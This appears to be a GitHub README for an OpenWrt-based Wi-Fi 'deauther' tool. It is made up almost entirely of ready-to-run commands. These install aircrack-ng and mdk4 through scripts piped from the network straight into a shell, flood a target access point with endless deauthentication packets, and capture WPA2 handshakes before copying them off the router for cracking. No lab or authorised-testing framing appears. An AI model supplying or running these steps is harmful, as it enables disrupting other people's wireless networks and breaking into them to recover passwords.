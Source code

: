 # Requirements 
- Mediatek MT7628* chipset router
- Mipsel-24kc package
- Openwrt firmware version 22.03.*

# Notes
- Functions similar on linux aircrack-ng aireplay-ng and mdk4
- Can also capture WPA2 WPAWPA2PSK Handshakes
- Doesn't work on openwrt version 23.*.* up

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

# Auto Install
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | bash
````

# Using mdk4
> install mdk4
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Using aireplay-ng 
> run monitor mode
```sh
sh wlan0mon.sh && airodump-ng wlan0mon
```
> ctrl + c
```sh
aireplay-ng wlan0mon --deauth 0 -a (Mac BSSID)
```
# Monitor Mode
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon.sh | sh
```
# Run
```sh
sh wlan0mon.sh
```
# Using mdk4
```sh
sh wlan0mon.sh && mdk4 wlan0mon d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add wlan0mon type monitor`

`ip link set wlan0mon up`

`airodump-ng wlan0mon`

`aireplay-ng wlan0mon --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake file from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [!Tip]
 > * .cap - export any name with .cap file format
